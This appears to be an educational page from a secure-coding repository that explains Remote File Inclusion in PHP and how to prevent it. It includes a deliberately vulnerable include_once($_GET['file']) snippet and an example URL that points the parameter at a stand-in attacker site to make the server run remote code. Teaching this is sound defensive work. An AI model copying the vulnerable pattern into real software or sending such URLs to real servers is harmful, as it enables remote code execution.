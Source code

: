 ![RFI](image/RFI.png?raw=true "RFI")

# Description
Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing external URL to be injected.


# Vulnerable Example
The require and require_once functions alongside include and include_once are commonly abused in File Inclusion exploits. The only difference being that require functions will generate an error and halt the running script if the file is not found, whereas include functions will only generate a warning.

```php
<?php include_once($_GET['file']); ?>
```

Consider the following URL:
`http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page.php`
In this case the remote file is going to be included and any code contained in it is going to be run by the server.

# Prevention

If possible, developers should avoid building file path strings with user-provided input, especially when the resources are disclosed to the user or executed at run time.

If passing user-supplied input to a filesystem API is necessary, developers must ensure the following:

- Validate the user input by strictly accepting well-known, reputable candidates against an allow list.
- If validating against an allow list isn't possible, validation should at least ensure that only permitted content is contained in the input.

Reference: [WebAppSec](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)